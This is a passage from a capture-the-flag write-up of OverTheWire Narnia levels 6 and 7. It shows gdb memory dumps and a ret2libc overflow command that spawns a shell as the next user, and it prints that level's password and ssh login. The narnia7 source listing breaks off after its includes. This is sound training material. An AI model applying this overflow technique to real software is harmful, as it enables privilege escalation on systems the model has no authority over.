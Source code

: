     Breakpoint 1, 0x0804931f in main ()
    (gdb) p system 
    $1 = {int (const char *)} 0xf7dcd430 <__libc_system>
    (gdb) x/16wx $esp 
    0xffffd268:	0xffffd274	0x42424242	0x42424242	0x44444444 (2)
    0xffffd278:	0x41414100	0x43434343	0x00000000	0xf7fade34
    0xffffd288:	0x00000000	0xf7da1cb9	0x00000003	0xffffd344
    0xffffd298:	0xffffd354	0xffffd2b0	0xf7fade34	0x080490ed
    (gdb) r AAAAAAAA$(echo -ne "\x30\xd4\xdc\xf7") BBBBBBBBDDDD
    quit
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y

    Starting program: /narnia/narnia6 AAAAAAAA$(echo -ne "\x30\xd4\xdc\xf7") BBBBBBBBDDDD
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, 0x0804931f in main ()

    (gdb) x/16wx $esp 

    0xffffd268:	0xffffd274	0x42424242	0x42424242	0x44444444
    0xffffd278:	0x41414100	0xf7dcd430	0x00000000	0xf7fade34
    0xffffd288:	0x00000000	0xf7da1cb9	0x00000003	0xffffd344
    0xffffd298:	0xffffd354	0xffffd2b0	0xf7fade34	0x080490ed

At (1),(2) we can see that the first 4 bytes of `argv[1]` have been overwritten with the last 4
bytes of `argv[2]`, which urges the attacker after finding the `system()`'s address and putting it 
to the correct place, to overflow `b2` with "/bin/sh" which has length of 7 and 
and will overwrite all `A`s produced by `argv[1]`. Meaning one can run the binary with the arguments
below, spawn a shell with the privileges of `narnia7` and grab the password for the next level.

    narnia6@gibson:~$ /narnia/narnia6 AAAAAAAA$(echo -ne "\x30\xd4\xdc\xf7") BBBBBBBB/bin/sh
    $ id
    uid=14007(narnia7) gid=14006(narnia6) groups=14006(narnia6)
    $ cat /etc/narnia_pass/narnia7
    54RtepCEU0

Password: **54RtepCEU0**


## narnia7

After connecting to the specific level with `ssh` by typing
    *ssh narnia7@narnia.labs.overthewire.org -p 2226* 
with password 
    *54RtepCEU0*

one can find the vulnerable code of `narnia7` binary in the following snippet:

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <stdlib.h>
    #include <unistd.h>


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html